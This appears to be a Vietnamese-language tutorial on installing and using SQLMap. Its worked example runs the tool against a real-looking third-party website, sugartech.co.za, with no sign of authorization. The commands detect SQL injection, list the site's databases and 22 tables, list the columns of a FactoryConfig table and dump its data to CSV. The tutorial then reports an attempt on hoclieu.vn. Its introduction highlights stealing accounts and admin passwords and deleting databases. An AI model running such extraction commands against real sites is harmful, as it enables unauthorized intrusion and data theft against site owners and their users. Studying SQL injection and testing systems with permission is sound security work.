





# Hướng dẫn cài đặt và sử dụng SQLMap
SQLMap là 1 công cụ được sử dụng để khai thác lỗi SQL injection của các trang web<br>
SQL injection là lỗi giúp ta có thể can thiệp vào cơ sở dữ liệu ở backend của trang web mà không cần kiểm duyệt hay đăng nhập hoặc thậm chí có thể lấy được cả username và password của quản trị CSDL. Khi đã có thể can thiệp vào CSDL ta có thể làm rất nhiều việc, từ lấy tài khoản của user khác, thay đổi thông tin người dùng hoặc thậm chí xóa toàn bộ CSDL.<br>
## Cài đặt
Trước hết ta cần phải cài đặt sqlmap
```
$ sudo apt install sqlmap
```
## Các bước thực hiện
### Bước 1: Khởi động SQLMap
Để khởi động SQLmap thì ta gõ lệnh
```
$ sqlmap
```
Để xem các tham số mà SQLmap hỗ trợ thì ta thêm --help vào sau lệnh gọi
```
$ sqlmap --help
```
### Bước 2: Bắt đầu việc kiểm thử bảo mật trang web
Link chúng ta sử dụng để làm ví dụ: https://www.sugartech.co.za/links/index.php?catid=11<br>
Kiểm tra xem trang web có lỗ hổng không
```
$ sqlmap -u https://www.sugartech.co.za/links/index.php?catid=11 --batch
```
Giải thích:<br>
-u: đường dẫn URL đến trang web cần kiểm tra<br>
--batch: sử dụng input mặc định cho các options<br>
Kết quả nhận được sau khi chạy câu lệnh nếu web có lỗ hổng SQL injection
<br>
Nếu không thể inject được trang web ta sẽ nhận được thông báo như sau
<br>
Nếu không có thông báo như trên ta tiếp tục đi sâu vào các database trong CSDL
```
$ sqlmap -u https://www.sugartech.co.za/links/index.php?catid=11 --batch --dbs
```
Giải thích:
--dbs: liệt kê các database trong CSDL<br>
Kết quả nhận được là danh sách các database có trong CSDL
 <br>
Ta nhận thấy có 2 database là information_schema và sugarte_db1.<br>
Tiếp theo ta sẽ sử dụng database sugarte_db1 để làm ví dụ
```
$ sqlmap -u https://www.sugartech.co.za/links/index.php?catid=11 --batch -D sugarte_db1 --tables
```
Giải thích:<br>
-D: chọn database để thao tác<br>
--tables: liệt kê danh sách các tables trong database<br>
Kết quả nhận được<br>
<br>
Ta nhận được 22 tables trong database.<br>
Tiếp theo ta sẽ xem trong table FactoryConfig có những gì bằng câu lệnh<br>
```
$ sqlmap -u https://www.sugartech.co.za/links/index.php?catid=11 --batch -D sugarte_db1 -T FactoryConfig --columns
```
Kết quả nhận được<br>

Giải thích:<br>
-T: lựa chọn table để thao tác<br>
--columns: liệt kê danh sách các cột trong table<br>
Để dump dữ liệu trong các cột ra file csv ta sử dụng câu lệnh
```
$ sqlmap -u https://www.sugartech.co.za/links/index.php?catid=11 --batch -D sugarte_db1 -T FactoryConfig -C tên_cột --dump
```
Giải thích:<br>
-C: lựa chọn cột để thao tác
## Kết quả khi áp dụng SQLmap để kiểm thử với hoclieu.vn
Không thể khai thác lỗ hổng SQL injection trên trang hoclieu.vn